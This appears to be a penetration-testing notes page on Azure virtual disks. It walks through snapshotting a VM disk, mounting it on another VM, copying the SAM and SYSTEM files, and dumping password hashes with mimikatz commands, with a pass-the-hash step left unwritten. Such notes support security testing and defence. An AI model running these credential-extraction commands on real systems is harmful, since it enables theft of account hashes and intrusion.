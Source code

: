 # VHD Analysis

## VHD Analysis

VHD = virtual disk

From a VHD snapshot or backup, it's possible to remount it and steal data.

**Depends on Permissions** 

| Role | Actions |
| :--- | :--- |
| Reader | Can't execute command or download VHD |
| Contributor | Can run commands and create Snapshots |
| Owner | Can run commands and create Snapshots |
| Service Accounts | Can sometimes access to VHDs |

### Create a VM snapshot

From the Azure portal, locate the VM, select the Virtual Disk and create a snapshot

![](../../../../../.gitbook/assets/image%20%28261%29.png)

![](../../../../../.gitbook/assets/image%20%28287%29.png)

![](../../../../../.gitbook/assets/image%20%28277%29.png)

Since the size can be really big, the best way to analyze it is to create an another VM and mount the snapshot from there :

![](../../../../../.gitbook/assets/image%20%28158%29.png)

* Add the snapshot as a Disk on the analysis VM :

![](../../../../../.gitbook/assets/image%20%28128%29.png)

* Save 

![](../../../../../.gitbook/assets/image%20%28153%29.png)

* On the second VM, disk have been added

![](../../../../../.gitbook/assets/image%20%28283%29.png)

### Mount the Disk

![](../../../../../.gitbook/assets/image%20%28210%29.png)

### Copy SAM and SYSTEM files

![](../../../../../.gitbook/assets/image%20%28220%29.png)

### Upload the file on the windows VM

```csharp
 Get-SCPFolder -ComputerName "REMOTE_TARGET" -RemoteFolder "/root/pwn" -LocalFolder "C:\Users\b3v1l\Desktop\tools\mimikatz_trunk\x64\sam" -Credential $creds
```

### Extract Hashes using mimikatz

```csharp
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::SAM /SAM:C:\Users\b3v1l\Desktop\tools\mimikatz_trunk\x64\sam\SAM /SYSTEM:C:\Users\b3v1l\Desktop\tools\mimikatz_trunk\x64\sam\SYSTEM
```

![](../../../../../.gitbook/assets/image%20%28304%29.png)

### Pass The Hash

...

### Resources

{% embed url="https://github.com/darkoperator/Posh-SSH" %}



{% embed url="https://github.com/gentilkiwi/mimikatz" %}







